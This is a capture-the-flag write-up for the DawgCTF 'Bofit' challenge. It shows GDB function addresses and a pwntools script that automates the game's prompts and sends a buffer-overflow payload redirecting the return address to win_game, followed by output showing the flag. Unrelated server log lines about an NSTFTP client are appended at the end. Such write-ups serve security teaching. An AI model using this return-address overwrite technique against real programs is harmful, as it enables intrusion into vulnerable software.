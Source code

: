 Open the binary with GDB and run `info func` to see function addresses. There is a function called `win_game` which I probably need to jump to to get the flag.

```c
0x0000000000401256  win_game
0x00000000004012a9  play_game
0x000000000040141a  welcome
0x00000000004014b6  main
```

The application requests a random input of one character or a string where the buffer overflow occurs. To solve it, automate the character inputs until the overflow option becomes available. This happens on the `Shout it` prompt. Then send an overflow payload to set the return address to the `win_game` address. Once the current function completes, it will return to that function and get the flag.

```python
from pwn import *

elf = ELF('./bofit')

def run_until_bof(t):
    while True:
        l = t.readline()
        if b'BOF it' in l:
            t.sendline(b'B')
        elif b'Pull it' in l:
            t.sendline(b'P')
        elif b'Twist it' in l:
            t.sendline(b'T')
        elif b'Shout it' in l:
            break

t = remote('umbccd.io', 4100)
t.recvuntil(b'start!\n')
t.sendline(b'B')

run_until_bof(t)

# 'haaaaaaa' found by sending a large pattern and trapping the error in GDB
offset = cyclic_find(b'haaaaaaa', n=8)
buf = offset * b'A' + p64(elf.symbols['win_game'])
t.sendline(buf)

t.recvline()
t.sendline('A')

t.interactive()
```

Running this gets the flag from the server.

```shell
➜  Bofit ./exploit.py
[+] Opening connection to umbccd.io on port 4100: Done
[*] Switching to interactive mode
DawgCTF{n3w_h1gh_sc0r3!!}
[*] Got EOF while reading in interactive
```


[486626]: Talking to NSTFTP-client-go-dawgs
[486626]: Error disconnect, code 42
[487191]: Talking to NSTFTP-client-go-dawgs
[487191]: Error disconnect, code 43